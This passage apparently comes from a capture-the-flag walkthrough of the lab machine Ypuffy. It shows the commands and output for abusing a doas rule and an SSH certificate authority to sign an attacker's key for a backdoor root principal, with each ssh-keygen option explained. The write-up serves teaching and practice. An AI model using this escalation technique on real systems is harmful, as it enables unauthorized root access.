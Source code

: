     root@kali# ls id_rsa_ypuffy_root*
    id_rsa_ypuffy_root  id_rsa_ypuffy_root.pub



#### scp Public Key to Ypuffy

Next, I need to move these to the CA host for signing. I'll use scp
using alice's public key to `/tmp`:



    root@kali# scp -i alice.pem id_rsa_ypuffy_root.pub alice1978@10.10.10.107:/tmp/
    id_rsa_ypuffy_root.pub                                                                                                                                                                    100%  391    20.3KB/s   00:00



#### Generate Signed Certificate

Now I'm going to generate the signed certificate using `ssh-keygen`
running as userca. First, I'll need to make sure my public key can be
read by userca:



    ypuffy$ chmod +r id_rsa_ypuffy_root.pub
    ypuffy$ ls -l id_rsa_ypuffy_root.pub
    -rwxr-xr--  1 alice1978  wheel  391 Feb  1 08:55 id_rsa_ypuffy_root.pub



Now, I'll generate the cert:



    ypuffy$ doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -I 0xdf -n 3m3rgencyB4ckd00r -V +52w id_rsa_ypuffy_root.pub
    Signed user key id_rsa_ypuffy_root-cert.pub: id "0xdf" serial 0 for 3m3rgencyB4ckd00r valid from 2019-02-01T09:01:00 to 2020-01-31T09:02:19

    ypuffy$ ls -l id_rsa_ypuffy_root*
    -rw-r--r--  1 userca     wheel  1504 Feb  1 09:02 id_rsa_ypuffy_root-cert.pub
    -rwxr-xr--  1 alice1978  wheel   391 Feb  1 08:55 id_rsa_ypuffy_root.pub



Here's the breakdown of the options I used with `ssh-keygen`:

-   `-s /home/userca/ca` - Specifies that I want to sign a public key
    using the given CA private key.
-   `-I 0xdf` - The identify associated with the certificate. In this
    case, it's arbitrary. In an enterprise, they could use this to track
    who was assigned a given cert.
-   `-n 3m3rgencyB4ckd00r` - The principles to be included in the
    certificate.
-   `-V +52w` - Make this certificate good for 52 weeks.
-   `id_rsa_ypuffy_root.pub` - the public key that will be associated
    with the certificate.

As the output shows, the command output a file ending in `-cert.pub`.
The original public key is unchanged.
